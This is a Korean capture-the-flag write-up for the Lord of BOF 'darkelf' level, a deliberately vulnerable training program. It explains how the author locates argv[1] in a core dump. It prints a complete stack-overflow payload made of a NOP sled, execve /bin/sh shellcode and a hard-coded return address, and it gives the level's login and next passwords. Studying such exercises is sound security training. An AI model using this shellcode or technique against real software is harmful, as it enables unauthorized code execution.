 # [LOB] darkelf Write-up

![](./picture/darkelf_1.JPG)

```
login : wolfman
Password : love eyuna
```

위의 계정으로 로그인하면 된다.

이번 문제의 소스코드는 다음과 같다.

![](./picture/darkelf_2.JPG)

환경변수, 버퍼를 초기화하고, argv[1]의 길이를 체크하기 때문에 RET 주소 뒤에 쉘코드를 넣는 방법을 사용할 수 없다. 하지만 버퍼만 초기화하고, argv[1]은 초기화하지 않는다. 따라서 argv[1] 앞 쪽, 즉 SFP 앞부분에 쉘코드를 넣고 리턴주소를 argv[1]의 시작 주소로 넣어주면 문제가 풀린다.

![](./picture/darkelf_3.JPG)

darkelf 파일의 이름과 똑같은 길이의 이름으로 파일을 복사한 뒤 A(44byte) + \xff\xff\xff\xbf(4byte)를 인자로 주어 실행했다. 해당 리턴 주소가 없기 때문에 리턴할 때 오류가 생겨 core dump 가 발생한다. 리턴 후 멈췄기 때문에 esp는 RET 아래(argc)를 가리키고 있을 것이다.  

esp를 확인해보면 strcpy() 함수 때문에 0(NULL) 값으로 덮어씌워진 argc가 있고, 그 다음에 `0xbffffb24`가 argv 주소이다.  
해당 주소로 가면 순서대로 argv[0], argv[1]이 있다. 

![](./picture/darkelf_4.JPG)

`0xbffffc25`가 argv[1]의 주소이다. 인자로 넣어준 값들이 들어간 것을 확인해볼 수 있다.

```
./darkelf `python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x25\xfc\xff\xbf"'`
```

페이로드는 NOP(19byte) + 쉘코드(25byte) + RET(argv[1]의 주소 4byte)로 작성하면 된다.

![](./picture/darkelf_5.JPG)

쉘을 땄고, 비밀번호는 **kernel crashed** 이다.
